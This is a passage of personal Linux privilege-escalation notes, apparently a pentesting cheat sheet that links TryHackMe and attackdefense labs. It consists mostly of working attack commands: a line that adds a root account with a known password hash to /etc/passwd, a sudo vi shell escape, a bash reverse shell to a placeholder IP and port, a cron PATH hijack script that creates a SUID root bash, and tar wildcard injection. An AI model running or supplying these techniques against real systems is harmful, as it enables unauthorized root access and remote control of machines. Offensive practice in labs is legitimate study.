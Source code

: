 then add 
`new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash` to the passwd file from the user which have write permissions

or use
`find / -not -type 1 -perm -o+w 2>/dev/null`

## GTFObins
`NOPASSWD: /usr/bin/vi` 

so for this as mentiond on this website 

sudo vi
:!sh
id

finish

# Crontab

`crontab -l` this will list the cron jobs for the current user
`cat /etc/crontab` this will list all the cronjobs available in system

**Netcat** `bash -i >& /dev/tcp/[IP]/[PORT] 0>&1`

### PATH var exploitation
For this one in crontab if the absolute path is not given of the file to be execute ex: 
`* * * * * root overwrite.sh`
so we can create overwrite.sh in home dir and re set the PATH var to home by which now cron will execute our overwrite.sh
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
PATH is alread home is in that then it will work. otherwise set your own like below.

### Wildcards
When a wildcard `(*)` is provided to a command as part of an argument, the shell will first perform filename expansion 
This replaces the wildcard with a space-seperated list 	of the file and dir names in the current dir.
- If you see `/bin/sh -c cd /home/tony && tar -zcf /var/backups/tony.tgz \*` wildcard like this then go for the [Tar cron 2 root](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e)
[Lab for tar wildcard escalation](https://attackdefense.com/challengedetails?cid=74)
[tryhackme box](https://tryhackme.com/room/linuxprivesc)

### Schedule Tasks
1. Use `linpeas.sh` to check if something is in the cron or any other.
2. Use `pspy` to check the runtime processes.
![](https://i.imgur.com/zVAVFsV.png)
